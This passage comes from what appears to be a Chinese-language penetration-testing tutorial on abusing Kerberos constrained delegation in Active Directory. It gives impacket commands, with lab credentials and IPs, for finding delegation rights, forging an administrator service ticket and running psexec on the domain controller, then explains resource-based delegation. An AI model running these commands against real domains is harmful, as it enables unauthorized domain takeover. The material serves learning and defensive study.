 > 注：这里的委派账户可以是域用户、也可以是机器账户。

在这个例子中，假设我们已获得服务 A 的服务账户 skylark/admin:'skylark@123'。

（1）委派权限查询

    impacket-findDelegation skylark.com/admin:'skylark@123' -dc-ip 192.168.56.50
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153447067-1309162149.png)

或 ADExplorer.exe 查询

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153513660-1647014115.png)

或域工具“AD 用户和计算机”查询

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153536096-1003717077.png)

（2）模拟用户进行 ST 票据申请

    impacket-getST -dc-ip 192.168.56.50 -spn cifs/dc2012.skylark.com  skylark.com/admin:'skylark@123' -impersonate administrator
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153600691-802922279.png)

可以看到，我们通过委派账户 admin 成功申请到了 administrator 账户向域控访问的 ST 票据。接下来，便可以使用此票据以 administrator 的身份向域控发起访问。

（3）利用 ST 票据管控服务 B 的机器（即域控）

    export KRB5CCNAME=administrator@cifs_dc2012.skylark.com@SKYLARK.COM.ccache
    
    impacket-psexec -k -no-pass administrator@dc2012.skylark.com -dc-ip 192.168.56.50 -target-ip 192.168.56.50
    

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153623251-737238075.png)

**

4、基于资源的委派

**
-----------------

### 工作原理

![image](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250627153651988-2128444237.png)

下面分析一下上述每个步骤的含义：

1.  服务 A 使用自己的服务账户和密码向 KDC 申请一个可转发的 TGT。
2.  服务 A 利用 S4u2Self 协议代表用户申请一个访问自身的 ST。这一步区别于传统的约束性委派。在 S4u2Self 协议中提到，返回的 ST 可转发的一个条件是服务 A 配置了传统的约束性委派。KDC 会检查服务 A 的 msDS-AllowedToDelegateTo 字段，如果这个字段被赋值了，则 KDC 返回可转发的 ST。但是由于这里是基于资源的约束性委派，是在服务 B 上配置的，服务 B 的 msDS-AllowedToActOnBehalfOfOtherldentity 属性配置了服务 A 的 SID，服务 A 并没有配置 msDS-AllowedToDelegateTo 字段，因此 KDC 返回的 **ST 是不可转发** 的。
3.  服务 A 利用 S4u2Proxy 协议以用户的身份向 KDC 请求访问服务 B 的可转发 ST（上一步获得的不可转发 ST 放在请求包的 AddtionTicket 中）。KDC 返回访问服务 B 的 **可转发 ST**。
4.  服务 A 用上一步获得的可转发 ST 访问服务 B。
